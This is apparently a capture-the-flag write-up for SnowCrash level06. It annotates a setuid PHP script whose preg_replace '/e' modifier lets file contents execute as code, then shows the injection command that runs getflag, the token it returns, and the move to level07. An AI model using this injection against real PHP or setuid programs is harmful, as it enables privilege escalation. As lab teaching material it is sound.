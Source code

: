 # 1st Step  
List the file with `ls -l` will show us :  
```
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwsr-x---  1 flag06 level06 356  Mar 5   2015 level06.php
```  
***Notes** : The owner of 'level06' executable and 'level06.php' script is flag06 we'll probably exploit at least one of them*  
  
Look at the php script  
```
#!/usr/bin/php                                                # Indicates the path of the interpreter, like for bash (#!/bin/bash)
<?php                                                         # Opening php tag, this is the beginning of the script
	function y($m) {
		$m = preg_replace("/\./", " x ", $m);                     # `/\./` matches the character '.' literally (case sensitive) => replace the first '.' by " x "
		$m = preg_replace("/@/", " y", $m);                       # `/@/` matches the character @ literally (case sensitive) => replace the first '@' by " y"
		return $m;
	}
	function x($y, $z) {
		$a = file_get_contents($y);                               # `file_get_contents()` reads entire file and return it into a string
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);   # `/(\[x (.*)\])/e` will interpret any strings like "[x *whatever*]" as PHP code because it use the deprecated and vunerable regex 'e' modifier then we replace it by `y(*whatever*)`
		$a = preg_replace("/\[/", "(", $a);                       # `/\[/` matches the character [ literally (case sensitive) => replace the first '[' by '('
		$a = preg_replace("/\]/", ")", $a);                       # `/\]/` matches the character ] literally (case sensitive) => replace the first ']' by ')'
		return $a;
	}
	$r = x($argv[1], $argv[2]);                                 # call the function x *the second line will print the result*
	print $r;
?>                                                            # closing php tag, end of the script
```
  
It takes two parameters and calls a function x to get the content of the first parameter, assuming it refers to a file (see file_get_contents)  
Then replacements are done to this content, based on regular expressions.    
We can see the php script use the deprecated and vulnerable regex 'e' modifier
So the `/(\[x (.*)\])/e` regex will evaluate any string arranged in the form "[x (.*)]", interpret it as PHP code and call the 'y' function with ".*" as parameter.  
This allowing us to inject code like `getflag` ;)  

# 2nd Step
Let's exploit this php file !  
```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$ su level07
Password: 
level07@SnowCrash:~$
```
*Note: we used the [complex syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) => ${function}*  
Level06 passed !
